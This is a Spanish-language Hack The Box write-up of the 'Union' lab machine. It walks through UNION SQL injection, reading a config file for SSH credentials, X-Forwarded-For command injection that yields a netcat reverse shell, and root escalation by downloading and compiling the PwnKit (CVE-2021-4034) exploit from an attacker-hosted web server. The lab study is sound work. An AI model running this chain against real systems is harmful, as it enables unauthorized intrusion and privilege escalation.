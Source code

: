 ```yaml
---
layout: single
title: Union - Hack The Box
excerpt: "Union is an medium difficulty linux machine featuring a web application that is vulnerable to SQL Injection. There are filters in place which prevent SQLMap from dumping the database. Users are intended to manually craft union statements to extract information from the database and website source code. The database contains a flag that can be used to authenticate against the machine and upon authentication the webserver runs an iptables command to enable port 22. The credentials for SSH are in the PHP Configuration file used to authenticate against MySQL. Once on the machine, users can examine the source code of the web application and find out by setting the X-FORWARDED-FOR header, they can perform command injection on the system command used by the webserver to whitelist IP Addresses."
date: 2025-06-19
classes: wide
header:
  teaser: /img2/union.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Medium
tags:
  - SQLI (SQL Injection) - UNION Injection
  - SQLI - Read Files
  - HTTP Header Command Injection - X-FORWARDED-FOR [RCE]
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - Abusing sudoers privilege [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
❯ nmap -sS --open -p- --min-rate 5000 -n -Pn 10.10.11.128
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 22:28 CEST
Nmap scan report for 10.10.11.128
Host is up (0.033s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.45 seconds
```

## Exploitation (OPTION 1)

- SQLI (UNION Injection)

![](/img2/Pasted%20image%2020250618223154.png)

![](/img2/Pasted%20image%2020250618223227.png)

> Vemos que dependiendo de si la query es exitosa sale un output u otro.

![](/img2/Pasted%20image%2020250618224209.png)

> De esta forma vemos la versión con la que estamos tratando.

![](/img2/Pasted%20image%2020250618224508.png)

> Vemos las bases de datos disponibles.

![](/img2/Pasted%20image%2020250618224627.png)

> Vemos las tablas disponibles en la base de datos "november".

![](/img2/Pasted%20image%2020250618225148.png)

> En la tabla flag se encuentra la credencial para poder inscribir un nuevo jugador.

![](/img2/Pasted%20image%2020250618225355.png)

![](/img2/Pasted%20image%2020250618225427.png)

```bash
❯ nmap -sS --open -p- --min-rate 5000 -n -Pn 10.10.11.128
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 22:56 CEST
Nmap scan report for 10.10.11.128
Host is up (0.069s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.43 seconds
```

> Una vez registrado el nuevo jugador se nos abre el puerto ssh.

- SQLI (Read Files)

![](/img2/Pasted%20image%2020250618225808.png)

> Con la funcion LOAD_FILE podemos ver archivos internos del sistema.

![](/img2/Pasted%20image%2020250619105755.png)

> En el archivo de configuración encontramos las credenciales para conectarnos a la base de datos, podemos probar a conectarnos por ssh.

```bash
❯ ssh uhc@10.10.11.128
```

```ruby
uhc@10.10.11.128's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$
```

## Exploitation (OPTION 2)

- SQLI (Read Files)

![](/img2/Pasted%20image%2020250619113309.png)

> En vez de conectarnos por ssh, podemos leer el archivo firewall.php el cual contiene una vulnerabilidad RCE. El script guarda el contenido de la cabecera HTTP_X_FORWARDED_FOR en la variable $ip, en el caso de que no exista la cabecera se establece como variable $ip la dirección de la petición. Una vez obtenida la ip ejecuta el siguiente comando como usuario root:

```
sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT
```

-     HTTP Header Command Injection - X-FORWARDED-FOR (RCE)

![](/img2/Pasted%20image%2020250619114910.png)

```bash
❯ nc -nlvp 9000
```

```ruby
listening on [any] 9000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.128] 48272
bash: cannot set terminal process group (734): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$     
```

## Post-exploitation (OPTION 1)

- Find SUID

```bash
uhc@union:/$ find / -perm -4000 2>/dev/null 
```

```ruby
/usr/bin/at
/usr/bin/fusermount
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Find sudoers

```bash
www-data@union:~/html$ sudo -l
```

```ruby
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
www-data@union:~/html$ sudo su
root@union:/var/www/html# 
```


![](/img2/Pasted%20image%2020250619110434.png)